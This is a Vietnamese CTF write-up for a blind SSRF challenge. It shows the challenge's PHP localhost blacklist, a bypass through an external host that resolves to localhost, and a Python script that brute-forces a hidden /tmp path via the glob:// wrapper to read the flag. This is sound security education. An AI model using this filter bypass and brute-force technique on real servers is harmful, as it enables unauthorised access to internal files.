




# list file as a service

Bài này là một bài Blind SSRF xD. Mình sẽ không nói nhiều về SSRF mà chỉ tập trung vào phần Blind thôi. Mình sẽ để các bài về SSRF trước của mình ở đây, nếu chưa biết về SSRF các bạn có thể tham khảo:

* [Diff Checker (idek CTF 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/idek%20CTF%202021/Diff%20Checker)
* [Ez SQL (ISITDTU CTF QUALS 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)
* [A tiny hole (Cookie Arena Season 1)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)

## ∫

### ssrf.php

Nhìn sơ qua hàm `filter`, đoạn code này sẽ chặn các địa chỉ `local` và chỉ cho phép 2 scheme đó là `http` và `https`.

```php
function filter($args){
	$blacklists = ["127.0.0.1","0.0.0.0", "127.0.1","127.1","0","localhost","2130706433","0x7f000001","0177.0.0.1"];
	$whitelists = ["http" , "https"];
	if(!in_array($args["scheme"],$whitelists))
		{echo $args["scheme"];
		return 0;}
	else{
		if(in_array($args["host"],$blacklists) ){
			echo $args["host"];
			return 0;
		}
		if(strpos($args["query"],"dir_name")){
			return 0;
		}
	}
	return 1;
}
```

### dir.php

Mục đích của mình là đến được `dir.php` và dùng hàm `file_get_contents` để đọc flag.

```php
if($_SERVER['REMOTE_ADDR']=== "127.0.0.1"){
	if(isset($_GET['dir_name'])){
		$dir = new DirectoryIterator($_GET['dir_name']);
		foreach ($dir as $key) {
			echo $key->getType();
		}
	}
	if(isset($_GET['file'])){
		var_dump(file_get_contents($_GET['file']));
	}
}
```

Khi mình query param `dir_name` nó sẽ không in ra tên file mà chỉ in ra type do đó không list dir được, nên mình đoán flag sẽ không dễ ăn như kiểu `flag.txt` mà sẽ được giấu ở đâu đó.

## bypass ssrf

Ở đây mình dùng `requestrepo.com` và config như sau để bypass đoạn filter trên:



Sau khi config xong, đoạn payload mình nặn ra sẽ trông như này:

```
http://45.122.249.68:10004/ssrf.php?host=http://meo.58c8d7tk.requestrepo.com/dir.php
```


Vậy là phần SSRF đã xong, việc còn lại là tìm xem flag được giấu ở đâu.

## blind ssrf

Đề bài có đề cập rằng `i alway hile my secret in temp` nên mình đoán flag được giấu ở `/tmp`. Mình thử query `dir_name` thì server trả về 3 "`dir`", 2 trong 3 `dir` đó chính là `.` và `..`, vậy thì khả năng cao thư mục còn lại sẽ chứa flag.



Do không list dir được nên mình lợi dụng wildcard trong wrapper [glob://](https://www.php.net/manual/en/wrappers.glob.php) để bruteforce hehe =))


Đây là đoạn code mình dùng để bruteforce:

```python
import requests
from string import ascii_lowercase, digits 

url = 'http://45.122.249.68:10004/ssrf.php?host=http://meo.58c8d7tk.requestrepo.com/dir.php'

dir = '/tmp'
charset = ascii_lowercase + digits + '._/'

found = False
while not found:
    found = True
    for c in charset:
        print(c)
        r = requests.get(url + f'?dir_name=glob://{dir + c}*')

        if 'dir' in r.text or 'file' in r.text:
            dir += c
            found = False
            print('found:', dir + c)
            break

print('found:', dir)
```

And, voila :D

```console
$ python blind.py
...
8
9
_
.
/
found: /tmp/vkl_dir_hidden/aduvjpflag.xyz
```

Sau một lúc thì mình bruteforce được path, bây giờ chỉ cần query lên server là xong.



Flag: `Wanna.One{list_file_ssrf_as_a_service}`